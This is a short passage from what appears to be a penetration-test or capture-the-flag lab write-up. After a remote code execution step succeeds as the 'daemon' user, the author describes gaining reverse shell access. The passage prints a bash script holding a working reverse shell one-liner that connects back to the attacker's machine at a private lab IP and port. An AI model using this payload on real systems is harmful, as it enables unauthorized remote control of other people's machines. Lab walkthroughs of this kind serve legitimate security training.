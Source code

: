 -  Success! Remote code was executed as the `daemon` user.
    

---

###  Step 5: Reverse Shell Access

Next, I prepared a reverse shell payload:

**`bashshell.sh`**

```bash
#!/bin/bash
bash -i >& /dev/tcp/192.168.112.156/1111 0>&1
```

I hosted the script on my machine and transferred it to the target:

![pasted](./Pasted_image_20250503005518.png)  
![pasted](./Pasted_image_20250503005622.png)

After triggering the reverse shell:

![pasted](./Pasted_image_20250503005710.png)
